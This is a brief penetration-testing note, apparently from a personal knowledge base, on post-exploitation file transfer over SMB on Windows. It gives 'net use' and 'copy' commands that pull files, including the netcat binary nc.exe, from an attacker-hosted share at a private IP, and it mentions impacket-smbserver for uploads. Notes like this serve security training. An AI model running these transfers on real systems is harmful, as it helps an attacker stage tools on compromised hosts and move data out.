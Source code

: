 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Windows
---
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]]

A SMB share can be used across an entire domain
1. [[Impacket#Create SMB Server|Create SMB Server]] SMB server share
2. `Net Use`

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

```cmd-session
copy \\192.168.220.133\share\nc.exe
```

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```


## SMB Uploads 

See [[SMB Over HTTP]]

> [!NOTE]
> If there are no SMB (TCP/445) restrictions, you can use `impacket-smbserver` the same way we set it up for download operations.
